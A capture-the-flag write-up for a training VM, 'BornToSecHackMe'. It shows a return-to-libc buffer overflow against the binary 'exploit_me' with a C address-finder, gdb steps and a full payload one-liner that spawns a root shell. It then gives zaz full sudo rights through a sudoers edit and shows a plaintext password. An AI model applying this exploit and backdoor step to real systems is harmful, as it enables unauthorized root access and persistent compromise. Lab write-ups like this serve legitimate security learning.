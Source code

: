 # Buffer overflow

After getting access to `zaz` and following the buffer overflow method from the first writeup (**bomb**), we can grant `sudo` rights to zaz.

Again, we need to create a buffer overflow, using the previous method :<br/>
`export SHELLSH=/bin/sh`

Inside `main.c` :

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELLSH");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```

Using gdb on `exploit_me` once again, let's get back the adresses of `system` and `exit`.

```
gdb exploit_me
b main
r
p system --> $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
p exit --> $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Compile the script, then execute it :
```
zaz@BornToSecHackMe:~$ ./env_addr
Estimated address: 0xbfffffba
```

Now let's create a buffer overflow to launch `/bin/sh` as `root`. (You might have to play with the last hexadecimal value to get it right, since our SHELLSH address is approximative).
```
./exploit_me `python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1]) + '\xbf\xff\xff\xba'[::-1]"`
```


# Visudo

Once we're `root`, we can edit the `/etc/sudoers` file using `visudo` (under nano).<br/>
Let's grand `zaz` the exact same rights as root :

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
zaz     ALL=(ALL:ALL) ALL
[...]
```

Save the file, then close the running shell (you should come back as zaz).<br>
Now we should be able to log as root using zaz's password. Let's try !<br>
```
$ sudo su
Password : 646da671ca01bb5d84dbb5fb2238dc8e
root@BornToSecHackMe:/home/zaz#
$ whoami
root
```

Voilà !

*(We can also power down the VM, turn it on again and log as zaz through ssh then `sudo su` to try it out and make sure it's right.)*